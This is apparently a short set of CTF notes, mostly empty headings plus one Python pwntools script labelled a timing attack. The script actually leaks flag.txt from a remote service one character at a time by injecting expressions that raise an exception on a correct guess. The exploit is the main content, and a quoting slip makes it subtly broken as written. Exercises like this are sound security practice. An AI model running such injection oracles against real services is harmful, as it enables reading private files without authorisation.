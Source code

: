 # CTF-Notes
## Web
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```




## Reverse Engineering
## Crypto

